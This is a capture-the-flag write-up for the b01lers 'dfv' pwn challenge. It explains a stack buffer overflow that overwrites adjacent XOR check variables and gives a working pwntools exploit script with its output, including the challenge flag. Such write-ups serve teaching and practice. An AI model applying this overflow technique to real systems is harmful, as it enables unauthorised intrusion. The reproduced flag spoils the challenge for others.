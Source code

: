 We can see from the Cutter output that our input is sitting at `rbp-0x20`, and then the xor variables sit immediately after it:


&nbsp;
![]({{ site.baseurl }}/img/dfv/cutter_main_def.png)
&nbsp;

Which means that we'd need to pass 16 characters from the beginning of our input to get to the `cooldav_against_xor_key`:

```python
>>> 0x20 - 0x10
16
```

So, we write 8 chars for our legitimate input, then 8 more chars for the key, then 8 more chars for the result of "COOLDAV" ^ key.

In order to satisfy the if checks to get to the flag, we need our input XOR'ed with COOLDAV to match whatever we give it for the result.

An easy way to do this is just set all bytes to null:

```python
#!/usr/bin/env python
from pwn import *

context.bits= '64'
context.endian= 'little'
#context.log_level = 'debug'

conn = remote('pwn.ctf.b01lers.com', 1001)

conn.recvuntil(" > ")
payload = p64(0x0)*24
conn.sendline(payload)
while 1<2:
    try:
        print(conn.recvlineS())
    except EOFError as e:
        break
```
Results:
```
python dfv_pwn.py
[+] Opening connection to pwn.ctf.b01lers.com on port 1001: Done
b"Thank you so much! Here's your reward!\n"
b'pctf{sp4c3_l1n3s_R_sh0r7!}\n'
b'*** stack smashing detected ***: <unknown> terminated\n'
b'/home/dfv/wrapper.sh: line 2:  8065 Aborted                 (core dumped) ./dfv\n'
```

Flag: `pctf{sp4c3_l1n3s_R_sh0r7!}`

(Alternatively, we could also post 8 chars, 8 null-bytes, and then the same 8 chars, as that would essentially make the XOR a nop, like)
